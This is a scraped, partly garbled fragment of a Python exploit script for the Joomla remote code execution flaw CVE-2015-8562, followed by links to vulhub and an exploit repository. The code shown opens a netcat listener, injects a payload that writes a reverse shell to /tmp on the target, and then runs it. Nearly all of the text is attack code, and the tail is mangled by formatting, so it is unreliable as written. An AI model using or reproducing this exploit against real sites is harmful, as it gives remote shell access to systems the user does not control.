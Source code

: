	print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
	print "\033[1;32;10m[+] Spawning listener on {}:{}".format(args.LHOST, args.LPORT)		
	listener = subprocess.Popen(args=["gnome-terminal", "--command=nc -lvp "+args.LPORT])
	time.sleep(5)
	print "\033[1;37;10m[-] Uploading reverse shell to /tmp/{}".format(shell_name)
	pl = generate_payload("system('"+payload+"');")
	print get_url(args.RHOST, pl, args.method, proxyDict)
	time.sleep(2)
	print "\033[1;32;10m[+] Spawning reverse shell..."
	print "\033[1;33;10m[-] Check if the listener caught the shell\033[1;37;10m"
	pl = generate_payload("system('{} /tmp/{}');".format(comm, shell_name))
	print get_url(args.RHOST, pl, args.method, proxyDict)
else:
	print '\033[1;31;10m\n[!] Missing Arguments\n\033[1;37;10m'
	parser.print_help() 
``` `if **name** == “**main**”:

try:

# Suppress SSL Warning due to unverified HTTPS requests.

# See: [https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings](https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings)

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

main()

except KeyboardInterrupt:

print “\033[1;31;10mQuitting…”

sys.exit(0)` 
```

## 参考链接

> https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562

> https://github.com/VoidSec/Joomla_CVE-2015-8562